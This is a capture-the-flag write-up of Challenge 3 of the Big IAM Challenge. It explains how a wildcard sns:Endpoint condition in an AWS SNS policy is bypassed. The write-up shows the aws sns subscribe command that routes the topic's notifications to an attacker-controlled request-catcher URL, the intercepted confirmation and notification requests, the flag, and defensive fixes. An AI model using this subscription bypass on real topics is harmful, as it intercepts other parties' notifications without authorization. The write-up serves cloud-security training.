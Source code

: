 # Writeup for Big IAM Challenge: Challenge 3

# Challenge number

    3

## Challenge Statement

The goal of Challenge 3 is to exploit an overly permissive IAM policy on an Amazon SNS topic to subscribe without authorization, intercept notifications, and capture the flag within the message. The challenge highlights the risks of weak access controls in cloud environments.

## IAM Policy

```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

### Short analysis about the IAM policy

```
* What do I have access to?
  - The policy allows anyone (Principal: "*") to subscribe to the TBICWizPushNotifications SNS topic as long as the subscription endpoint matches *@tbic.wiz.io.

* What don't I have access to?
  - The policy does not grant access to publish messages or manage the topic itself, limiting interaction to subscribing and receiving notifications.

* What do I find interesting?
  - The condition in the policy (sns:Endpoint: "*@tbic.wiz.io") limits subscriptions to specific email addresses, but it’s still overly permissive, allowing external users with matching domains to exploit this.
```

## Solution

Step 1: Set Up a Custom Endpoint
To bypass the sns:Endpoint condition, I utilized Request Catcher (https://requestcatcher.com/). I created a custom catcher endpoint:

    https://srush.requestcatcher.com/

This endpoint could receive and log HTTP requests, allowing me to intercept messages sent by SNS.

Step 2: Subscribed to the SNS Topic
Using the custom endpoint, I executed the following command to subscribe to the TBICWizPushNotifications SNS topic:

    aws sns subscribe \
        --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
        --protocol https \
        --notification-endpoint 'https://srush.requestcatcher.com/test@tbic.wiz.io'

    The command returned a Subscription ARN, confirming that the subscription request was successful.

Step 3: Confirmed the Subscription
After running the aws sns subscribe command, the response indicated the subscription was in a "pending confirmation" state:

```
{
    "SubscriptionArn": "pending confirmation"
}
```

To confirm the subscription, I checked the logs of my Request Catcher endpoint (https://srush.requestcatcher.com/test@tbic.wiz.io). The logs showed an HTTP POST request containing the SubscriptionConfirmation message, as shown below:

```
POST /test@tbic.wiz.io HTTP/1.1
Host: srush.requestcatcher.com
Accept-Encoding: gzip,deflate
Connection: Keep-Alive
Content-Length: 1623
Content-Type: text/plain; charset=UTF-8
User-Agent: Amazon Simple Notification Service Agent
X-Amz-Sns-Message-Id: 2cbb4f40-6af8-4e2c-ad1c-c337328bb9fd
X-Amz-Sns-Message-Type: SubscriptionConfirmation
X-Amz-Sns-Topic-Arn: arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications

{
  "Type" : "SubscriptionConfirmation",
  "MessageId" : "2cbb4f40-6af8-4e2c-ad1c-c337328bb9fd",
  "Token" : "2336412f37fb687f5d51e6e2425a8a58714989472d236a6cba8478a654dc0e7f80161c55d6a73bf77ee9560b99fe7f6749fc26b2b0186453c7abd48bd7e0ecda3dd2e3267e6349e30e3d50b8f2286b082d53fa789a2663a66d46b95d85fd56176923ac0799789cd4cc02ff58f36808e90b1b9367c30ba0b398b461a37963e9ed",
  "TopicArn" : "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
  "Message" : "You have chosen to subscribe to the topic arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications.\nTo confirm the subscription, visit the SubscribeURL included in this message.",
  "SubscribeURL" : "https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a58714989472d236a6cba8478a654dc0e7f80161c55d6a73bf77ee9560b99fe7f6749fc26b2b0186453c7abd48bd7e0ecda3dd2e3267e6349e30e3d50b8f2286b082d53fa789a2663a66d46b95d85fd56176923ac0799789cd4cc02ff58f36808e90b1b9367c30ba0b398b461a37963e9ed",
  "Timestamp" : "2025-01-25T16:09:23.224Z",
  "SignatureVersion" : "1",
  "Signature" : "k90wEAyUHIGHx0SOtDqiz4Wnft/Je+Nr5c3x6RHpKI2maYiiX0fKvCrMGyjC6zyiaDvbJgmLg2iMzfnvSogoie0lN6SfzN8j+RiFIhXa4B9KljZyTVmNXsslvEWvt8cdH6WAnTtwoxvE1eSTOROUay7FsMTIxYnON4ljriFLCQEHY2bq9EIccexMyG9jLxxKOUXC87snLs3JsU1rgQHCii+czANp8WPjzUGh7VzcqEZV2Y7okqiuVqw5kViZ2+7GchXwdnuU9faliv+1eLsgGJUzcKKsox/dJ/FOXYTvkZRzu+ZR483DoNwnuLzD+AqbiEcHfiHXi2FNqpp6K56P2g==",
  "SigningCertURL" : "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-9c6465fa7f48f5cacd23014631ec1136.pem"
}
```

Step 4: Captured the Flag
After confirmation, I waited for notifications to be sent to the topic. Shortly after, a new request was logged in Request Catcher with the message content:

```
POST /test@tbic.wiz.io HTTP/1.1
Host: srush.requestcatcher.com
Accept-Encoding: gzip,deflate
Connection: Keep-Alive
Content-Length: 963
Content-Type: text/plain; charset=UTF-8
User-Agent: Amazon Simple Notification Service Agent
X-Amz-Sns-Message-Id: cf626a84-6014-5f7b-ae44-0a8b6c00f0f6
X-Amz-Sns-Message-Type: Notification
X-Amz-Sns-Subscription-Arn: arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:26ec4347-b10d-4942-b797-f59fbc3a7452
X-Amz-Sns-Topic-Arn: arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications
X-Amzn-Trace-Id: Root=1-679509d4-75913e4734dcd90038c3c617;Parent=53a4b57d53b59978;Sampled=0;Lineage=1:36680206:0

{
  "Type" : "Notification",
  "MessageId" : "cf626a84-6014-5f7b-ae44-0a8b6c00f0f6",
  "TopicArn" : "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
  "Message" : "{wiz:always-suspect-asterisks}",
  "Timestamp" : "2025-01-25T15:57:08.497Z",
  "SignatureVersion" : "1",
  "Signature" : "dOnhS0W5G8/DDS4GCxRTQ3IIYTlXgEHllJiL/ePM4wo1CcE2nju2YHJfbuQQ/nG+q7pk+Oi+2p32vF1FOGrE+bACdr/uEEcV4L/oglI1Uv5rx2fUUtO+9JQcf+XhceKrPlvuQywFjSBhgR2VpRwHXS9MrIiyGk4E0gQha5BJVbDPme6Li0qlVyKEx6rCA7wXt7qtWBT/1Csb4zkS+NG8KzMyjyeqSk3UY+h6kAcZXP8OqdFuI+2EEMrhBnxqSw3Ro86jIN76nngAFlgMu8l20tA4qkQ82eYPBs551om2ut7R8Z+s0F1hQANKN7zkovBS6C+a8VmEamkx8sK/nQlmKA==",
  "SigningCertURL" : "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-9c6465fa7f48f5cacd23014631ec1136.pem",
  "UnsubscribeURL" : "https://sns.us-east-1.amazonaws.com/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:26ec4347-b10d-4942-b797-f59fbc3a7452"
}
```

I extracted the flag from the Message field:

FLAG: {wiz:always-suspect-asterisks}

Step 5: Submitted the Flag

Finally, I inserted the flag found in the "Insert flag here" textbox and I was redirected to success screen.

## Reflection

- What was your approach?
  I bypassed the sns:Endpoint condition by using Request Catcher to simulate a valid endpoint and successfully intercepted SNS notifications.

- What was the biggest challenge?
  The challenge was ensuring that the custom endpoint met the policy's condition while being able to capture and log requests.

- How did you overcome the challenges?
  Using Request Catcher allowed me to create a compliant endpoint (https://srush.requestcatcher.com/) and efficiently capture the confirmation and notification messages.

- What led to the breakthrough?
  Understanding that sns:Endpoint conditions validate the domain pattern but do not verify endpoint ownership enabled me to bypass this restriction. Request Catcher proved to be an invaluable tool to simulate an endpoint and capture SNS traffic.

- On the Blue Side: Defensive Measures
  - Restrict the Principal: Replace Principal: "\_" with trusted roles or accounts to limit unauthorized access.
  - Use endpoint verification: Ensure that endpoints are owned or managed by the intended recipients using tokenized confirmation processes.
  - Disable overly broad conditions: Replace wildcard conditions like sns:Endpoint: "\*@tbic.wiz.io" with specific allowed endpoints.
  - Monitor subscriptions and logs: Regularly audit SNS subscriptions and logs for suspicious activities.
  - Enable encryption: Use message encryption to protect sensitive data in transit.
